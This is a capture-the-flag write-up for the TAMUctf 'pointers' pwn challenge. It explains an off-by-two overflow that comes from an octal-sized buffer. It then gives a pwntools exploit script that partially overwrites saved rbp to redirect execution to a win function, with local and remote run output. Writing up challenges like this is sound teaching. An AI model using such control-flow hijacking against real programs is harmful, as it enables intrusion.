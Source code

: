 The goal is to call the `win` function. We can see that we are given the address of the array containing the `lose` and `win` functions, where the function at the first index (`lose` in this case) is being called after the `vuln` function.

In the vul function we see a weird buffer-size `char buf[010];`. The size of the buffer is specified in `octal` format, giving it a size of 8 bytes. Following the declaration of the buffer we read in 10 bytes, `read(0, buf, 10);`. We have an overflow of 2 bytes!

When setting a breakpoint at the `vuln` call in pwndgb we can see the values on the stack at the pointer which is leaked, which to no surprise stores the `lose` and `win` functions
![Stack functions](stack.png)

With our 2 byte overwrite we end up overwriting the `rbp` register address, which gives us the ability to get the `win` function called.

I got the exploit working locally with this exploit script
```python
io = start()
io.recvuntil(b"stored at ")
pointers = io.recvline().rstrip()
log.info(f"Pointers @ {hex(int(pointers,16))}")

lsb = pointers[-4:]
win = bytes((int(lsb, 16)).to_bytes(2, byteorder='little'))
payload = b"\x90"*8
payload += win

io.recvuntil(b"pls:")
io.sendline(payload)
io.interactive()
```
{: .nolineno }

```bash
$ python3 exploit.py LOCAL
[+] Starting local process '~/tamuctf/pwn/pointers/pointers': pid 11454
[*] Pointers @ 0x7ffca0332700
[*] Switching to interactive mode
 [*] Process '~/tamuctf/pwn/pointers/pointers' stopped with exit code 0 (pid 11454)
flag{f4k3_fl4g}
```
{: .nolineno}

But it did not work on the remote server
```bash
$ python3 exploit.py
[+] Opening connection to tamuctf.com on port 443: Done
[*] Pointers @ 0x7ffd47614460
[*] Switching to interactive mode
```
{: .nolineno }

This was a bit annoying, because there were no Dockerfile stating what OS-version the server were running, so I couldn't create a similar local environment to debug in. I therefore couldn't know what was wrong with my exploit, since it was impossible to debug, so I felt like I ended up in some blind ROP state. By subtracting -8 from the address I used for the 2-byte overwrite I could get the `lose` function to trigger both remote and locally, but +8 to that `win` triggered only locally.
